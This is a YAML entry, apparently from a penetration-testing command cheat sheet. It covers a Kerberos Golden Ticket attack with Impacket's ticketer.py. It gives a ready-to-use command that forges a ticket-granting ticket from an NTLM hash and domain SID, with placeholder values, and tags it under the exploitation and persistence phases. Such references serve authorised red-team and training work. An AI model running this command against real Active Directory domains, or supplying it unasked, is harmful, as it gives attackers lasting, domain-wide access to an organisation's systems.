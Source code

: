 ```yaml
---
description: |
  Impacket's ticketer.py can perform Golden Ticket attacks, which crafts a valid TGT ticket using a valid user's NTLM hash. It is then possible to access any service using the TGT by requesting a TGS for that service.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

